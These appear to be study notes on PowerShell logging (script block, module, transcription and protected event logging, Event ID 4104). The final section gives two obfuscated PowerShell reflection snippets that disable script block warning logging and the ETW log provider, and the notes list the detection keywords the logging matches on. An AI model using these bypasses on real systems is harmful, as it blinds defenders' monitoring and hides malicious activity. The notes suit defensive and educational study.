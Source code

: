 ## Default Logging

- Really doesn't show much at all except suspicious events like those using `Add-Type`
- Also pipeline lifecycle stuff
- Suspicious terms:
	- Microsoft has a big list
	- The big ones are add-type, GetField, and NonPublic
	- It's literal string matching

## Script Block Logging

- PowerShell Operational Log - the source
- Logs processing of commands, script bloacks, functions, and scripts (interactive or automated)
- Event ID 4104 (optional start/stop logging 4105/4106)
- HKLM...EnableScriptblockLogging
	- Enable in Group Policy

## Module Logging

- More logs

## Transaction Logging

- More logs

## Transcription Logging

- Over-the-shoulder logging
- You will just see what they see in the window and not what's running in the background

## Protected Event Logging

- Introduced in Windows 10
- Allows application to encrypt sensitive data written to logs
- Sysadmins sometimes put sensitive data in logs, so this is a way of mitigating the risks from that

## Script Block & Module Logging Bypass

- https://github.com/cobbr/cobbr.io/blob/master/_posts/2017-05-02-ScriptBlock-Warning-Event-Logging-Bypass.md

```powershell
[ScriptBlock].GetField('signatures','NonPublic,Static').GetValue($null)

[ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
```

```powershell
([ref].Assembly.definedTypes | ? Name -like "PSEtwLogProvider")."GetFie`ld"('etwProvider','Non'+'Public,Static').getValue($null).dispose()
```
